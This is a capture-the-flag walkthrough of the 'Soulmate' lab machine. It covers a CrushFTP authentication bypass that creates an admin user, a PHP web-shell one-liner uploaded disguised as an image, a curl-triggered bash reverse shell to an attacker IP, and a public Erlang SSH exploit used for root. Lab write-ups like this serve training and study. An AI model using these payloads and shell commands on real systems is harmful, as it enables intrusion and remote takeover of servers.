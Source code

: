 # Soulmate

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*UfZ4t_D4nnULwpnc0mbcYg.png" alt=""><figcaption></figcaption></figure>

## Recon

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*glQHLpGmeSPZzr_8NRehOA.png" alt=""><figcaption></figcaption></figure>

No interesting directories were found on main application **soulmate.htb** after some enumeration vhost was found.

### Vhost Discovery

<figure><img src="https://cdn-images-1.medium.com/max/800/1*rA78vL7rX64flCkpPBRhZg.png" alt=""><figcaption></figcaption></figure>

\


I also tried default creds of crushftp which was crushadmin:crushadmin but they didn’t work out well so, went to hydra but it didn't help.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*T4qL5lE0CUVmDGyYQvm3Ag.png" alt=""><figcaption></figcaption></figure>

\


### Crush-ftp Auth Bypass

\


So i didn’t get any version of the application but i saw this..

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*fvDVOv18j37t3gcuc_KzcA.png" alt=""><figcaption></figcaption></figure>

It adds a user and gets you login into application.

```
python 52295.py --target ftp.soulmate.htb --exploit --new-user hacker --password hacker  --port 80
```

<figure><img src="https://cdn-images-1.medium.com/max/800/1*7J2U-9QufbNbI3R9hOVWmw.png" alt=""><figcaption></figcaption></figure>

We have successfully logged-in as admin.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*Q3TDjGUVziMcWHA_AjhN1g.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cdn-images-1.medium.com/max/800/1*pTaVeRrIsxQaAgQCQ_C3Mw.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cdn-images-1.medium.com/max/800/1*2Dqay4aMtHv_BGMBtXgBbA.png" alt=""><figcaption></figcaption></figure>

There was a telnet client idk how its working.



## Initial Foothold

\


So now go to the admin panel and select files take the folder of **app** to your user and then allow all the permission especially upload,rename. After that upload the file containing php cmd as an png file.

And upload it as a profile image in **soumate.htb**

```
echo '<?php if(isset($_REQUEST["cmd"])) system($_REQUEST["cmd"]); ?>' > shell.p
```

<figure><img src="https://cdn-images-1.medium.com/max/800/1*e9p1T1sJGFx8LbdWmS_8SA.png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://cdn-images-1.medium.com/max/800/1*ZTdVQOCffR5j1swxsMz1oA.png" alt=""><figcaption></figcaption></figure>

Now the uploaded file will be poped up in profiles folder as you already gave permission to rename the file you can change it back into php file.

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*3Ore7de8XCTUksHDP2pRPA.png" alt=""><figcaption></figcaption></figure>

After that go to the profile pic and click open image at new tab and add ?cmd=\<command> to see if its working

\


<figure><img src="https://cdn-images-1.medium.com/max/800/1*UgH1_RRslaWGU0fK18AYWg.png" alt=""><figcaption></figcaption></figure>

if its working its time to get reverse shell.



### Reverse shell



```
curl "http://soulmate.htb/assets/images/profiles/6_1757710607.php?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/10.10.16.54/9001%200%3E%261'"

```

<figure><img src="https://cdn-images-1.medium.com/max/800/1*2E7pmnEEtLH4m4D1SuH1uw.png" alt=""><figcaption></figcaption></figure>

```
curl "http://soulmate.htb/assets/images/profiles/6_1757710607.php?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/10.10.16.54/9001%200%3E%261'"
```

That’s it we got Shell into the box.

## Root Access

<figure><img src="https://cdn-images-1.medium.com/max/800/1*VnH3v6geO4lGVZWiqQob5g.png" alt=""><figcaption></figcaption></figure>

While enumerating i got this.

Its running a erlang\_ssh.service so i tried to get the version of service.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*fAIzXTA_i_ExnKSuagpQPQ.png" alt=""><figcaption></figcaption></figure>

We got the version now.

\


Get the exploit from github [https://github.com/TeneBrae93/CVE-2025-3243.git](https://github.com/TeneBrae93/CVE-2025-3243.git).

modify the code and this command to spawn a reverse shell.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*nnniaQR8RUk8ZwU-Hg8NZw.png" alt=""><figcaption></figcaption></figure>

\


And transfer it into victim machine.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*MLlnbpSqbhFe-XustJwduw.png" alt=""><figcaption></figcaption></figure>

```
python3 CVE-2025-3243.py -lh 10.10.16.54 -lp 4444 -rh 127.0.0.1 -rp 2222
```

Since the erlang port is running on local host we dont have a choice but to run this on the victim machine .

> Note run this in victim machine -lh is your vpn ip and -lp is your listener ip.

<figure><img src="https://cdn-images-1.medium.com/max/800/1*3_0xssfNOoPnmzuenbs4NA.png" alt=""><figcaption></figcaption></figure>

And that's it we got root on boxx!!!!

<img src="../../.gitbook/assets/file.excalidraw (2).svg" alt="" class="gitbook-drawing">

